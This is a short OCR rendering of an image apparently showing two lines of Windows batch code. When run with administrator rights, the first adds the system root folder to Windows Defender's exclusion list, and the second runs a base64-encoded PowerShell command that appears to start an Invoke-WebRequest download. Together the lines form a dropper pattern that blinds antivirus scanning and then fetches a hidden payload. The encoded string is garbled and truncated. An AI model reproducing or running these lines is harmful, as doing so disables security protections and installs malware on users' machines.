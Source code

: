 net session >nul 2>&1 && powershell Set-MpPreference  -Exclusionpath $env:systemRoot >nul 2>&1 
net session >nul 2>&1 && powershell -EncodedCommand SQBuAHYbwBrAGUALQBXAGUAYgBSAGUAcwBOACAALBQ
